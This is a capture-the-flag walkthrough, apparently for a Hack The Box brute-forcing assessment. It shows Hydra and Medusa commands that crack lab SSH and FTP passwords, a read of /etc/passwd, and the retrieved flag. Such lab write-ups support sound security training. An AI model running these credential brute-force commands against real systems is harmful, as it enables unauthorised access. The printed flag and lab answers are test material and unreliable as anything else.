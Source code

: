﻿This is the second part of the skills assessment.`YOU NEED TO COMPLETE THE FIRST PART BEFORE STARTING THIS`. Use the username you were given when you completed part 1 of the skills assessment to brute force the login on the target instance.

![Pasted image 20250213160519.png](../../../../IMAGES/Pasted%20image%2020250213160519.png)

If we recall last part, we found an username:

```
satwossh
```

We can begin our brute forcing by trying to find the password for that username, we suppose its a `ssh` user so, let's do the following command:

```
hydra -l satwossh -P 2023-200_most_used_passwords.txt 94.237.54.164 -s 36513 ssh -t 60
```

We get the following:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 21:06:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 60 tasks per 1 server, overall 60 tasks, 200 login tries (l:1/p:200), ~4 tries per task
[DATA] attacking ssh://94.237.54.164:36513/
[36513][ssh] host: 94.237.54.164 login: satwossh password: password1
1 of 1 target successfully completed, 1 valid password found
```

Found credentials:

```
`satwossh`:`password1`
```

Let's log into ssh:

```
ssh satwossh@94.237.54.164 -p 36513
The authenticity of host '[94.237.54.164]:36513 ([94.237.54.164]:36513)' can't be established.
ED25519 key fingerprint is SHA256:0ldLAJLTwIrE2wupFhvN1WiHuimct7AF+pBddY5xIi8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[94.237.54.164]:36513' (ED25519) to the list of known hosts.
satwossh@94.237.54.164's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.1.0-10-amd64 x86_64)

 * Documentation: https://help.ubuntu.com
 * Management: https://landscape.canonical.com
 * Support: https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
satwossh@ng-1340293-loginbfsatwo-rv3cd-7fdfc99595-9tpzv:~$
```

Nice, let's search the ports and active listening services, also, the home directory:

```
 netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN - 
tcp6 0 0 :::21 :::* LISTEN - 
tcp6 0 0 :::22 :::* LISTEN -


nmap localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-13 21:09 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000076s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
ftp:x:105:107:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
satwossh:x:1000:1000::/home/satwossh:/bin/bash
thomas:x:1001:1001::/var/.hidden:/bin/bash
```

We found ftp, and an user named `thomas`, let's try to brute force the ftp login:

```
which medusa

/usr/bin/medusa
```

Medusa is enabled:

```
medusa -h 127.0.0.1 -u thomas -P passwords.txt -M ftp -t 5

ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: a123456 (28 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: 666666 (29 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: asdfghjkl (30 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: ashley (31 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: chocolate! (32 of 198 complete)
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: thomas Password: chocolate! [SUCCESS]
```

Found the ftp credentials:

```
`thomas`:`chocolate!`
```

Let's log into ftp:

```
ftp ftp://thomas:'chocolate!'@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||55297|)
150 Here comes the directory listing.
-rw------- 1 1001 1001 28 Sep 10 09:19 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||10266|)
150 Opening BINARY mode data connection for flag.txt (28 bytes).
100% |***********************************************************************************************************************************************************| 28 701.12 KiB/s 00:00 ETA
226 Transfer complete.
28 bytes received in 00:00 (157.14 KiB/s)
ftp> exit
221 Goodbye.

cat flag.txt

HTB{brut3f0rc1ng_succ3ssful}
```

Flag is:

```
HTB{brut3f0rc1ng_succ3ssful}
```


![Pasted image 20250213161640.png](../../../../IMAGES/Pasted%20image%2020250213161640.png)

